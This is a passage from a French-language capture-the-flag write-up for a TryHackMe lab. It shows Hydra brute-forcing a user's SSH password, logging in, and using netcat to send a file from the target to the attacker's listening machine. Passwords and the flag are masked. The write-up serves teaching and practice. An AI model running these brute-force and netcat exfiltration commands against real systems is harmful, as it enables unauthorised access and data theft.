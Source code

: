 On va essayer de l'utiliser pour récupèrer le mot de passe de jack :

```
┌──(kali㉿kali)-[~/Challenge/TryHackMe/JackOfAllTrades]
└─$ hydra -l jack -P passlist -s 80 10.10.187.114 ssh                                                          
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-09-27 10:16:50
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 24 login tries (l:1/p:24), ~2 tries per task
[DATA] attacking ssh://10.10.187.114:80/
[80][ssh] host: 10.10.187.114   login: jack   password: ****************
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-09-27 10:16:53
```
Nickel on a un compte :

**login**: jack   
**password**: ****************

On a ainsi le compte de Jack :

```
www-data@jack-of-all-trades:/home$ su - jack
su - jack
Password: 

jack@jack-of-all-trades:~$ 
```
On va se connecté en SSH car c'est quand même plus agréable.
```
ssh jack@10.10.187.114 -p 80
```
Dans le **/home** de jack je trouve un fichier **user.jpg**

Pour le récupèrer, j'ai utiliser netcat :
Sur la machine :
```
nc monip port < user.jpg
```
Sur ma kali
```
nc -lnvp port > user.jpg
```
Et on trouve le 1er flag en plein milieu d'une recette de soupe de pinguin 
```
securi-tay2020_{********************************}
```

